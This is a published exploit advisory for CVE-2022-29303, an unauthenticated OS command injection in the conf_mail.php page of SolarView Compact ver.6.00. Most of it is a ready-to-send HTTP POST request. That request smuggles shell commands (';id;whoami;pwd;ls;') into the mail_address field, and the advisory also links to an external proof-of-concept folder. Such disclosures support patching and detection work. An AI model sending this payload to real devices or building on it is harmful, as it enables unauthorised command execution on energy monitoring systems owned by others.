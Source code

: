 #Exploit Title: SolarView Compact ver.6.00 OS command injection vulnerability affects conf_mail.php

#Date: 2022-05-15
#Exploit Author: Ahmed Alroky
#Author Company : AIactive
#Version: ver.6.00
#Vendor home page : https://www.contec.com/
#Authentication Required: No
#CVE : CVE-2022-29303

#Tested on: Windows


#Exploit
#HTTP Request :

POST /conf_mail.php HTTP/1.1
Host: HOST_IP
Content-Length: 77
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://HOST_IP
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://HOST_IP/conf_mail.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

mail_address=%3Bid%3Bwhoami%3Bpwd%3Bls%3B&button=%83%81%81%5B%83%8B%91%97%90M


#Poc
https://drive.google.com/drive/u/1/folders/1tGr-WExbpfvhRg31XCoaZOFLWyt3r60g
